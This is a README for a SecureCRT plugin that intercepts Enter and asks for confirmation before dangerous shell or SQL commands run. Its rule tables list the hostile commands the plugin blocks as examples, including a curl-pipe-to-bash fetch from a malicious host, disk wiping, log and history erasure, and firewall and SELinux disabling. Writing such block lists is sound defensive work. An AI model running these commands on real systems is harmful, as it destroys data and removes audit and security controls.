

# SecureCRT 危险命令拦截与防误操作卫士 (Dangerous Command Guard)

[](#)
[](#)
[](#)
[](#)

专门针对 **SecureCRT** 运维终端设计的高危命令实时拦截与误操作防御工具。提供 **VBScript（零依赖免安装，团队首选）** 与 **Python 3** 双版本支持。

通过接管本地终端的 <kbd>Enter</kbd>（回车）按键，在命令真正提交发送给服务器前进行实时的多行重构与高危模式扫描。若命中危险指令，主动弹出警告对话框二次确认；若放弃执行，自动发送 `Ctrl+C` 作废当前行，从源头杜绝手滑删库、误重启、越权提权等重大生产事故。

> ⚠️ **定位说明**：本工具属于**运维人员本地客户端的“防手滑”辅助工具**，不侵入远程服务器系统，亦不作为系统级的强制安全隔离边界。

---

## 版本的选择（VBScript 版 vs Python 版）

本项目提供两个功能、规则完全一致的脚本实现，请根据团队电脑环境选用：

| 脚本文件 | 适用场景与环境 | 环境要求 | 推荐度 |
| :--- | :--- | :--- | :---: |
| **`dangerous_command_guard.vbs`** | **SecureCRT 8.x 全系列** / 9.x<br>无管理员权限、未安装 Python 3.8 的企业内网办公机 | **绝对 0 环境依赖**<br>Windows 原生自带引擎，开箱即用 | 🌟 **强烈推荐（团队分发首选）** |
| **`dangerous_command_guard.py`** | SecureCRT 9.x+<br>本机已安装好对应版本 Python 运行环境的个人电脑 | 需本地具备 Python 3.8 引擎支持 | 备选方案 |

---

## 目录

- [一、 核心工作原理](#一-核心工作原理)
- [二、 部署与安装指南](#二-部署与安装指南)
- [三、 核心设计亮点](#三-核心设计亮点)
- [四、 兼容环境与提示符支持](#四-兼容环境与提示符支持)
- [五、 高危命令拦截规则库 (52 条)](#五-高危命令拦截规则库-52-条)
- [六、 进阶配置与调试](#六-进阶配置与调试)
- [七、 常见问题 (FAQ)](#七-常见问题-faq)

---

## 一、 核心工作原理

脚本不依赖任何远端 Agent，完全基于 SecureCRT 本地提供的脚本引擎（VBScript 或 Python）及终端屏幕缓冲区 API。

### 处理流程



---

## 二、 部署与安装指南

### 1. 前置要求
* **客户端**：SecureCRT 8.x / 9.x（使用 `.vbs` 版本无需任何额外软件；使用 `.py` 版本需 Python 3.8）。
* **操作系统**：Windows 10 / 11 / Windows Server。

### 2. 配置步骤（只需配置一次）

1. 下载并保存脚本到本地固定目录（例如：`D:\SecureCRT\Scripts\`）：
   * **绝大多数同事推荐直接使用**：`dangerous_command_guard.vbs`；
   * 习惯 Python 的可选用：`dangerous_command_guard.py`。
2. 打开 SecureCRT，进入菜单栏：
   * **全局生效（推荐）**：`Options` -> `Global Options` -> `Default Session` -> `Edit Default Settings...`（会对所有已建及新建会话生效）。
   * **当前会话生效**：`Options` -> `Session Options`。
3. 在左侧树形导航中选择：`Terminal` -> `Emulation` -> `Mapped Keys`。
4. 点击右侧的 **Map a Key...** 按钮。
5. 屏幕会提示 *"Press key to map"*，此时直接按下键盘上的 **<kbd>Enter</kbd>**（回车键）。
6. 在弹出的 **Map Key** 对话框中进行配置：
   * **Action**（动作）：下拉选择 **Run Script**；
   * **Script filename**：点击浏览按钮，选中你的 `dangerous_command_guard.vbs`（或 `.py`）文件；
   * **Arguments**：留空即可。
7. 点击 **OK** 保存并退出会话选项。

---

## 三、 核心设计亮点

### 1. 防手抖人机工程设计（`MB_DEFBUTTON2`）
传统确认弹窗焦点默认在“确认（Yes）”，连续敲击两次回车极易误执行。本脚本将弹窗的默认高亮焦点强制绑定在**第二个按钮（No）**。即使用户习惯性“连按双击回车”，第二次回车也只会触发取消，绝不误操作。

### 2. 放弃执行自动发送 `Ctrl+C`
当用户在弹窗中选择“否”、按下 <kbd>Esc</kbd> 或关闭窗口时，脚本不是简单地停止，而是主动向远端发送 `chr(3)` 即 `Ctrl+C`。这能**立刻作废终端当前输入缓冲区**，防止残留的高危字符在后续输入时被意外触发。

### 3. 长命令折行自动拼合（Lookback Wrap）
终端宽度有限（如 80 或 120 列）时，长命令会被终端自动折行显示。脚本向上回溯最多 6 行，能够自动剥离提示符并将折断的屏幕行拼合还原为一条完整命令，避免“断章取义”引发漏判。

### 4. 全屏与常用文本应用无感放行
如果在 `vim`、`nano`、`less`、`top`、`htop`、`Python REPL` 等环境下操作，屏幕行不会匹配到命令提示符。脚本会自动将其识别为非交互式 Shell 环境，**无感放行正常回车**，完全不影响正常的文本编辑。

### 5. 绝对故障安全（Fail-Closed 闭锁原则）
全局主逻辑由底部的 `try...except` 严密包裹。一旦遇到编码异常或任何未捕获错误，脚本遵循安全闭锁准则：**坚决不向远端发送 Enter**，并弹出红色错误弹窗，防止因脚本异常导致危险命令“穿透”执行。


---

## 四、 兼容环境与提示符支持

脚本通过内置的高精度正规表达式库，支持主流操作系统及数据库 CLI 提示符：

| 环境分类 | 匹配的 Prompt 格式 | 典型示例 |
| :--- | :--- | :--- |
| **RedHat / CentOS** | `^[^\r\n]*@[^\r\n]*[#$]` | `[root@prod-app ~]# `<br>`[user@server /tmp]$ ` |
| **Ubuntu / Debian** | `^[^\s@]+@[^\s:]+:[^#$\r\n]*[#$]` | `root@node1:/etc# `<br>`ubuntu@server:~$ ` |
| **容器 / 救援 Shell** | `^(?:bash\|zsh\|sh\|ksh\|dash)...[#$]` | `bash-5.1# `<br>`sh$ ` |
| **PostgreSQL (`psql`)** | `^(?:[\w.@:/-]+)?[=*\!\-\(\[\'\"\$\?]{1,2}[#>]` | `postgres=# `<br>`mydb=> `<br>`mydb-> ` *(续行)*<br>`mydb*=> ` *(事务)* |
| **openGauss (`gsql`)** | 同上（与 psql 完全同源） | `oms=> `<br>`oms=# `<br>`oms-> ` |

---

## 五、 高危命令拦截规则库 (52 条)

所有规则均预先通过 `re.compile(..., re.IGNORECASE)` 完成预编译。

### 一、文件与数据删除
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **rm 删除文件** | `rm`（词边界） | `rm -rf /data`、`rm -f app.log` |
| **truncate 将文件清零** | `truncate -s 0` 或 `--size=0` | `truncate -s 0 /var/log/app.log` |
| **shred 销毁文件** | `shred` | `shred -u /etc/shadow` |

### 二、磁盘及文件系统破坏
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **文件系统格式化** | `mkfs` 或 `mkfs.*` | `mkfs.ext4 /dev/sdb1` |
| **dd 直接写块设备** | `dd` 且 `of=/dev/sd*\|vd*\|nvme*` 等 | `dd if=/dev/zero of=/dev/sda` |
| **重定向直接写块设备** | `> /dev/sd*\|vd*\|nvme*` 等 | `cat boot.iso > /dev/sda` |
| **wipefs 擦除签名** | `wipefs` 且含 `/dev/` | `wipefs -a /dev/sdb` |
| **磁盘分区操作** | `fdisk`、`parted`、`sfdisk` | `fdisk /dev/sdb` |
| **LVM 删除操作** | `lvremove`、`vgremove`、`pvremove` | `lvremove /dev/vg0/data` |

### 三、系统启停
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **系统关机或重启** | `reboot`、`shutdown`、`halt`、`poweroff` | `reboot`、`shutdown -h now` |
| **systemctl 关机或重启** | `systemctl` 接 `reboot\|poweroff\|halt` | `systemctl reboot` |
| **init 改变运行级别** | `init 0` 或 `init 6` | `init 0` |

### 四、进程控制
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **kill 终止进程** | `kill`（任意参数） | `kill 1234`、`kill -9 5678` |
| **pkill/killall 终止进程** | `pkill` 或 `killall`（任意参数） | `pkill nginx`、`killall -9 java` |

### 五、账号与提权
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **sudo 提权执行** | `sudo` | `sudo ls`、`sudo -i` |
| **su 切换用户** | 起始或 `;\|&` 后的 `su` | `su -`、`su root` |
| **新建用户** | `useradd` | `useradd testuser` |
| **删除用户** | `userdel` | `userdel -r testuser` |
| **修改用户属性** | `usermod` | `usermod -aG wheel user` |
| **修改 sudoers** | `visudo` | `visudo` |
| **改删密码** | `passwd` | `passwd root`、`passwd -d user` |
| **批量改密码** | `chpasswd` | `echo "user:123" \| chpasswd` |

### 六、防火墙规则篡改
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **iptables 清空规则** | `iptables -F` 或 `-X` | `iptables -F` |
| **iptables 默认放行** | `iptables -P ... ACCEPT` | `iptables -P INPUT ACCEPT` |
| **ufw 关闭防火墙** | `ufw disable` 或 `reset` | `ufw disable` |
| **nft 清空规则集** | `nft flush ruleset` | `nft flush ruleset` |

### 七、日志与审计痕迹清理
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **编辑系统日志** | `vi/vim` 且目标位于 `/var/log/` | `vim /var/log/secure` |
| **重定向清空系统日志** | `>` 或 `>>` 目标位于 `/var/log/` | `> /var/log/messages` |
| **dd 覆写日志** | `dd` 目标为 `/var/log/` 或 `*.log` | `dd if=/dev/null of=/var/log/audit.log`|
| **编辑常规日志** | `vi/vim` 目标为 `*.log` | `vi app.log` |
| **重定向清空日志** | `>` 或 `>>` 目标为 `*.log` | `echo "" > error.log` |
| **sed 修改日志文件** | `sed -i` 目标为 `*.log` | `sed -i '/error/d' app.log` |
| **清空 Shell 历史记录** | `history -c` 或 `history -d` | `history -c` |
| **禁用历史记录** | `unset HISTFILE` 或 `HISTSIZE=0` | `export HISTFILE=/dev/null` |

### 八、审计与监控服务破坏
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **auditctl 清除规则** | `auditctl -D` 或 `-e 0` | `auditctl -D` |
| **停止 auditd 服务** | `systemctl stop/disable/mask auditd` | `systemctl stop auditd` |
| **停止 rsyslog 服务** | `systemctl stop/disable/mask rsyslog`| `systemctl disable rsyslog` |
| **journalctl 清除日志** | `journalctl --vacuum` | `journalctl --vacuum-time=1d` |

### 九、内核与系统安全加固破坏
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **关闭 SELinux** | `setenforce 0` | `setenforce 0` |
| **加载内核驱动模块** | `insmod` | `insmod backdoor.ko` |
| **动态库环境变量劫持** | `LD_PRELOAD=` | `export LD_PRELOAD=/tmp/lib.so` |

### 十、数据库高危增删改
> 支持在 Linux Shell 命令行（如 `mysql -e`、`psql -c`、`gsql -c`）及 PostgreSQL/openGauss 交互式终端内触发拦截。

| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **SQL 删除** | `DROP/TRUNCATE TABLE/DATABASE`、`DELETE FROM` | `DROP DATABASE prod;`<br>`DELETE FROM users;` |
| **SQL 修改** | `UPDATE ... SET`、`ALTER TABLE/DATABASE` | `UPDATE accounts SET balance=0;`<br>`ALTER TABLE orders DROP COLUMN id;` |
| **SQL 新增** | `INSERT INTO`、`CREATE TABLE/DATABASE` | `INSERT INTO super_admin VALUES (...);` |

### 十一、数据传输与网络排查工具限制
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **curl 禁用** | `curl`（全量拦截） | `curl http://malicious.site/sh \| bash` |
| **wget 禁用** | `wget`（全量拦截） | `wget http://malicious.site/tool` |
| **tcpdump 禁用** | `tcpdump`（抓包拦截） | `tcpdump -i eth0 -w dump.pcap` |

### 十三、远程连接与文件传输
| 规则名 | 触发条件 | 典型示例 |
| :--- | :--- | :--- |
| **ssh 远程连接** | `ssh` 作为独立命令执行 | `ssh root@10.0.0.1`、`ssh -p 2222 host` |
| **scp 远程文件传输** | `scp` 作为独立命令执行 | `scp file.tar.gz user@remote:/tmp` |
| **sftp 远程文件传输** | `sftp` 作为独立命令执行 | `sftp -P 22 user@remote` |
| **telnet 远程连接** | `telnet` 作为独立命令执行 | `telnet 192.168.1.1 80` |
| **ftp 远程文件传输** | `ftp` 作为独立命令执行 | `ftp 10.0.0.1` |

---

## 六、 进阶配置与调试

打开 `dangerous_command_guard.py`，顶部提供了以下可配置参数：

```python
# ------------------------------------------------------------
# 配置
# ------------------------------------------------------------

# 调试模式 (True / False)
# True  = 每次按 Enter 都会弹窗显示当前识别到的屏幕行、解析出的纯命令与命中原因
# False = 正常生产使用
DEBUG = False

# 最多向上回溯屏幕行数（用于自动拼接折行命令）
# 推荐值：6（兼顾性能手感与折行覆盖率，切勿盲目调大避免击键粘滞感）
MAX_LOOKBACK_ROWS = 6

# 取消危险命令后，是否额外再弹出一次"已取消"信息框
SHOW_CANCEL_NOTICE = False
```

---

## 七、 常见问题 (FAQ)

### Q1: 在 Vim 或 Less 里按回车会受影响吗？
**完全不会**。脚本内部通过 `PROMPT_PATTERNS` 判定当前是否处于命令行。Vim、Top、Less 等全屏应用没有命令提示符，脚本会直接放通回车，与平时使用完全一致。

### Q2: 为什么按了回车没有执行，而是弹出了错误弹窗？
这是触发了脚本底部的 **Fail-Closed 闭锁保护**。说明脚本解析终端内容时遇到了未预期的错误（如极其罕见的字符集编码异常）。为了防止未经审核的命令误执行，脚本拒绝向服务器发送回车。此时建议将 `DEBUG = True` 打开，查看报错的详细调用栈。

### Q3: 为什么弹窗时我一按回车，命令就被取消了？
这是为了安全设计的 **防手抖机制（`MB_DEFBUTTON2`）**。弹窗的默认焦点在“否 (No)”上，只有当您手动按方向键移动到“是”，或用鼠标明确点击“是”时，才会确认发送执行。

### Q4: 如何支持自己特殊的 Shell 提示符？
如果在某种特殊 Shell（例如自行定制了复杂的双行提示符或特异符号）下回车总被直接放行，说明 Prompt 没有匹配上。可编辑 `dangerous_command_guard.py` 中的 `PROMPT_PATTERNS` 列表，添加对应正则即可。
